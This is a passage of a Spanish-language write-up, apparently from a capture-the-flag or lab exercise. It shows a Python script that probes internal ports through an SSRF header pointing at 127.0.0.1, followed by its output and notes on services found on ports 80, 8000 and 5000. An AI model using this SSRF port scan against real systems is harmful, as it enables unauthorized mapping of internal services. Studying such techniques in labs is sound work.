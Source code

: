 ```python
    8444,  # HTTPS alternativo, a veces utilizado en entornos de desarrollo
    35357, # OpenStack Identity (Keystone) Admin API
    5000,  # Desarrollo local con Flask y otros frameworks
]

def scan():
    p = log.progress("Probando con: ")
    for port in puertos_http:
        p.status(port)
        headers = {
            SSRF_HEADER: f"http://127.0.0.1:{port}"
        }
        r = requests.get(BASE_URL,headers = headers)
        if len(r.text) != BASE_LENGTH:
            log.success(f"Hay algo en el puerto -> {port}")

if __name__ == "__main__":
    scan()
```

```shell
python3 scan.py 
[p] Probando con: : 5000
[+] Hay algo en el puerto -> 80
[+] Hay algo en el puerto -> 8000
[+] Hay algo en el puerto -> 5000
```

Después de investigar un poco vemos que el puerto 80 corresponde a la aplicación principal, la aplicación del puerto 8000 también.

Pero la aplicación del puerto 5000 corresponde a otra aplicación Blazor distinta que la del puerto 3000

Ignorar el `file://`, por alguna razón igualmente resuelve a la dirección interna con el `file://`
![Write-up Image](images/Screenshot_6.png)
